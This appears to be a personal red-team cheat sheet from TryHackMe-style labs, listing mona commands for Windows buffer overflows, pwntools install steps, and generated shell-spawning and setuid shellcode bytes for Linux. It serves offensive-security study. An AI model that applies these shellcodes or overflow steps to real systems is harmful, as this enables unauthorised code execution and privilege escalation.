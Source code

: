 ```yaml
---
title: "RTFM"
---
```


:::info

My version of the "Red Team Field Manual (RTFM)" for attacking boxes, learned from [TryHackMe](https://tryhackme.com/dashboard) and other sources.

:::

## Mona modules

python scripts to use in Immunity Debugger for windows buffer overflows

```bash
# set mona work dir
!mona config -set workingfolder C:\Users\IEUser\Downloads\%p

# create a bytearray to compare for badchar checking (add your badchar list)
!mona bytearray -b "\x00"

# compare memory in crashed app to the bytearray
!mona compare -f C:\Users\IEUser\Downloads\chatserver\bytearray.bin -a 0022F930

# find a jump esp return address (add your badchar list)
!mona jmp -r esp -cpb "\x00"
```

## pwntools

A tool to create various shellcode payloads.

[Installation](https://docs.pwntools.com/en/stable/install.html)

```bash
apt-get update
apt-get install python3 python3-pip python3-dev git libssl-dev libffi-dev build-essential
python3 -m pip install --upgrade pip
python3 -m pip install --upgrade pwntools
```

Binary is installed to `~/.local/bin` so add to your `$PATH` e.g. `export PATH=$PATH:~/.local/bin` or edit `~/.bashrc`

Useful commands

```bash
# see available shellcodes
pwn shellcraft -l

# generate shellcode: -f[ormat] d[isasm] <payload />
# format: choose from
# 'r', 'raw', 's', 'str', 'string', 'c', 'h', 'hex', 'a', 'asm', 'assembly',
# 'p', 'i', 'hexii', 'e', 'elf', 'd', 'escaped', 'default'
pwn shellcraft -f d i386.linux.sh
\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x68\x01\x01\x01\x01\x81\x34\x24\x72\x69\x01\x01\x31\xc9\x51\x6a\x04\x59\x01\xe1\x51\x89\xe1\x31\xd2\x6a\x0b\x58\xcd\x80

# append shellcodes e.g. if you need a setuid bit run before a .sh
pwn shellcraft -f d amd64.linux.setuid 1000
\x31\xff\x66\xbf\xe8\x03\x6a\x69\x58\x0f\x05

pwn shellcraft -f d amd64.linux.sh
\x6a\x68\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x2f\x73\x50\x48\x89\xe7\x68\x72\x69\x01\x01\x81\x34\x24\x01\x01\x01\x01\x31\xf6\x56\x6a\x08\x5e\x48\x01\xe6\x56\x48\x89\xe6\x31\xd2\x6a\x3b\x58\x0f\x05

## add them together:
\x31\xff\x66\xbf\xe8\x03\x6a\x69\x58\x0f\x05\x6a\x68\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x2f\x73\x50\x48\x89\xe7\x68\x72\x69\x01\x01\x81\x34\x24\x01\x01\x01\x01\x31\xf6\x56\x6a\x08\x5e\x48\x01\xe6\x56\x48\x89\xe6\x31\xd2\x6a\x3b\x58\x0f\x05
```

Resource: [hacktricks pwn shellcraft](https://book.hacktricks.xyz/exploiting/tools/pwntools#pwn-shellcraft)
